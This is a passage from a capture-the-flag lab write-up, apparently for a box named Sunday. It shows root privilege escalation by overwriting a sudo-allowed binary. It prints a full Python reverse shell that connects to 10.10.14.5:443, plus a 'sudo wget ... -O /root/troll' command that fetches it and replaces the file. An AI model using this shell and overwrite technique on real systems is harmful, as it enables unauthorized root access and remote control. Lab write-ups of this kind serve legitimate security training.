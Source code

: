 
#### Overwrite troll

Enough just getting the flag. I obviously want a root shell.

This was actually how I first solved the box. When enumerating as sunny, I
found a binary named troll that sunny could run with sudo without password:

    
    
    sunny@sunday:~$ sudo -l
    User sunny may run the following commands on this host:
        (root) NOPASSWD: /root/troll
    
    sunny@sunday:~$ sudo /root/troll
    testing
    uid=0(root) gid=0(root)
    

There’s nothing we could do with this as sunny. However, I think the box
author expects us to use this file to privesc (hence the overwrite script).

So let’s make troll useful. First, on kali, create a shell.py, which is
basically a nicely formatted [reverse python shell from
pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-
cheat-sheet):

    
    
    #!/usr/bin/python
    
    import socket
    import subprocess
    import os
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.5",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"]);
    

Serve it with SimpleHTTPServer, and request `shell.py` with wget, using the
`-O` option, which will allow us to specify a file to write the wget output
to, and it will overwrite that file if it already exists:

    
    
    sammy@sunday:~$ sudo wget http://10.10.14.5/shell.py -O /root/troll
    --01:07:04--  http://10.10.14.5/shell.py
               => `/root/troll'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 246 [text/plain]
    
    100%[==========================================================================================================================================================================================================>] 246           --.--K/s
    
    01:07:04 (25.59 MB/s) - `/root/troll' saved [246/246]
    